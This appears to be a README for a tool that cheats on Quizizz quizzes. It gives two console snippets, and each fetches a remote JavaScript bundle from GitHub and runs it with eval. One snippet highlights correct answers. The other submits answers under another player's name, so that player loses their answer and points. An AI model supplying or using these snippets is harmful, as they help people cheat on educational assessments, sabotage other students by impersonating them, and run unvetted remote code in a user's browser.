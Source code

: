 
# Methods
## Fetching Quizizz API

It should work in Test and Classic mode.
1. Join Quiz
2. Open console and paste this
```ts
fetch("https://raw.githubusercontent.com/gbaranski/quizizz-cheat/master/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. You can now close the console. The good answers should be highlighted by background opacity.

## Sending answers as someone else

An alternative method is more invasive. Instead of fetching Quizizz API, it sends a random answer to a current question as a different user (consuming his answer); as a response, Quizizz returns a valid answer, which is then displayed to the user.

1. Join quiz, wait for first question, and open console
2. Paste this code to the console
```ts
fetch("https://raw.githubusercontent.com/gbaranski/quizizz-cheat/oldmethod/dist/bundle.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
3. Enter the user name of any other player (the user won't get points even if they sent a valid answer).
4. Go to step 2
